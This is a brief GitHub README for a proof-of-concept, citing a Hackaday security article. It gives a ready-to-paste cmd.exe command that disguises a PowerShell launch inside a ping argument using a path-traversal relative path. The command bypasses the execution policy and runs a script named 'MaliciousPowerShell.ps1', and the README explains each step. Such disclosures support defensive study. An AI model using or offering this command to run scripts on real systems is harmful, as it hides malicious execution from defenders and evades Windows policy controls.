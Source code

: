 # Cmdexerelativepathpoc

Created by: Brad Voris<BR />

PowerShell script execution via cmd.exe relative path
This was in Hackaday article:
https://hackaday.com/2020/06/12/this-week-in-security-crosstalk-tls-resumption-and-brave-shenanigans/

This can be run from Windows 10 run copy and paste code
cmd.exe /c "ping 127.0.0.1/../../../../../../../Windows/system32/WindowsPowerShell/v1.0/powershell.exe" -ExecutionPolicy bypass -file c:\temp\MaliciousPowerShell.ps1

Path and file of PowerShell script are variables you can change
c:\temp\MaliciousPowerShell.ps1

cmd.exe will 
1. load a DOS prompt
2. cancel the ping command 
3. Run PowerShell with the Execution Policy in bypass mode
4. Load a PowerShell Script and execute

## Connect with me at
<A HREF="https://www.victimoftechnology.com">Victim Of Technology<A />
<BR /><BR />
<img alt="GitHub" src="https://img.shields.io/github/license/bvoris/Cmdexerelativepathpoc"><img alt="GitHub commit activity" src="https://img.shields.io/github/commit-activity/m/bvoris/Cmdexerelativepathpoc"><img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/bvoris/Cmdexerelativepathpoc/total"><img alt="GitHub repo size" src="https://img.shields.io/github/repo-size/bvoris/Cmdexerelativepathpoc"><img alt="GitHub language count" src="https://img.shields.io/github/languages/count/bvoris/Cmdexerelativepathpoc"><img alt="GitHub issues" src="https://img.shields.io/github/issues/bvoris/Cmdexerelativepathpoc"><img alt="GitHub top language" src="https://img.shields.io/github/languages/top/bvoris/Cmdexerelativepathpoc">
